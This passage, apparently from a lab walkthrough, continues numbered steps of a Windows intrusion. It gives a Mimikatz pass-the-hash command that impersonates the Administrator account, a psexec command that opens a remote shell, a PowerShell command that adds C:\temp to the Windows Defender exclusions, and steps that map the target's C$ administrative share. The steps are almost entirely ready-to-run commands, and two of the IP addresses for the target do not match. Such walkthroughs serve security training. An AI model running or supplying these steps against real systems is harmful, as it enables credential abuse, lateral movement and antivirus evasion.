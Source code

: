 
## Pass-the-Hash Attack

### 10. Perform Pass-the-Hash Attack
Use the NTLM hash of an admin to impersonate their session:
```bash
sekurlsa::pth /user:Administrator /domain:win10client /ntlm:[admin_hash]
```

### 11. Test Access to the Remote System
To confirm access:
```bash
dir \\192.168.56.30\c$
```

---

## Further Enumeration and Persistence

to connect to the remote device you should psexec a new remote session. do that by doing:
```bash
psexec.exe -r <processname> /accepteula \\remote_ip cmd.exe
```

### 12. Create a Temporary Folder
```bash
cd C:\
mkdir temp
```

### 13. Add Folder to Windows Defender Exclusions
In PowerShell:
```bash
powershell
add-mppreference -exclusionpath C:\temp
get-mppreference
```

### 14. Pass-the-Hash in a Second Terminal
Repeat the pass-the-hash attack in a second terminal:
```bash
sekurlsa::pth /user:Administrator /domain:win10client /ntlm:[admin_hash]
```

### 15. Map a Network Drive and Change Directory
In the second terminal:
```bash
net use X: \\192.168.50.30\c$
X:
cd temp
```
